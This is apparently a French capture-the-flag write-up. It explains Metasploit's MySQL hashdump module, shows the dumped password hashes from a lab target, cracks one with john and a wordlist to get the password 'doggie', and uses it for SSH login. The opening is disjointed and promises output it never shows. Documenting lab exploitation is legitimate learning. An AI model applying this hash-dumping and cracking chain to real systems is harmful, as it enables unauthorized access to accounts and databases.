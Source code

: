 Voici un exemple simplifié de ce que la sortie pourrait ressembler :

En résumé, le module `auxiliary/scanner/mysql/mysql_schemadump` est un outil puissant pour extraire et analyser la structure complète des bases de données MySQL, ce qui est essentiel pour la reconnaissance et la planification des actions dans un environnement de test de pénétration.

Le module `auxiliary/scanner/mysql/mysql_hashdump` de Metasploit est conçu pour extraire les hachages de mots de passe des utilisateurs MySQL depuis une base de données MySQL cible. Voici en détail ce que fait ce module :

1. **Extraction de hachages de mots de passe** :
    - **Requête de hachages** : Le module envoie des requêtes SQL pour récupérer les hachages de mots de passe des utilisateurs enregistrés dans les tables de gestion des utilisateurs de MySQL.
    - **Tables ciblées** : En général, les hachages sont stockés dans la table `mysql.user` dans les colonnes `Password` (pour MySQL versions antérieures à 5.7) ou `authentication_string` (pour MySQL 5.7 et versions ultérieures).
2. **Utilité** :
    - **Accès non autorisé** : Obtenir les hachages de mots de passe peut permettre à un attaquant de tenter des attaques par force brute ou des attaques par dictionnaire pour récupérer les mots de passe en clair.
    - **Reconnaissance** : Cela permet de connaître les utilisateurs de la base de données et de comprendre potentiellement leurs rôles et privilèges.
    - **Évaluation de la sécurité** : Les administrateurs peuvent utiliser ce module pour vérifier la robustesse des mots de passe des utilisateurs et identifier les faiblesses potentielles dans les pratiques de gestion des mots de passe.
3. **Fonctionnement** :
    - **Connexion à MySQL** : Le module se connecte à la base de données MySQL cible en utilisant les informations d'identification fournies.
    - **Requête SQL** : Il exécute des requêtes SQL pour extraire les informations des colonnes de mots de passe dans la table `mysql.user`.
    - **Affichage** : Les hachages récupérés sont ensuite affichés dans la console Metasploit.

En résumé, le module `auxiliary/scanner/mysql/mysql_hashdump` est utilisé pour récupérer les hachages de mots de passe des utilisateurs MySQL, ce qui peut être exploité pour tenter de découvrir les mots de passe en clair ou pour évaluer la sécurité des mots de passe dans une base de données MySQL.

J’obtiens ceci en le lançant.

```bash
msf6 auxiliary(scanner/mysql/mysql_hashdump) > run

[+] 10.10.109.206:3306 - Saving HashString as Loot: root:
[+] 10.10.109.206:3306 - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.109.206:3306 - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[+] 10.10.109.206:3306 - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
[+] 10.10.109.206:3306 - Saving HashString as Loot: root:*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
[+] 10.10.109.206:3306 - Saving HashString as Loot: carl:*EA031893AA21444B170FC2162A56978B8CEECE18
```

Je copie/colle carl:*EA031893AA21444B170FC2162A56978B8CEECE18 sur ma machine locale. Et je le cracke avec john.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

J’obtiens “doggie” donc finalement ce qu’il me reste à faire c’est de me connecter sur le ssh avec car@IP et rentrer le mot de passe : “doggie”

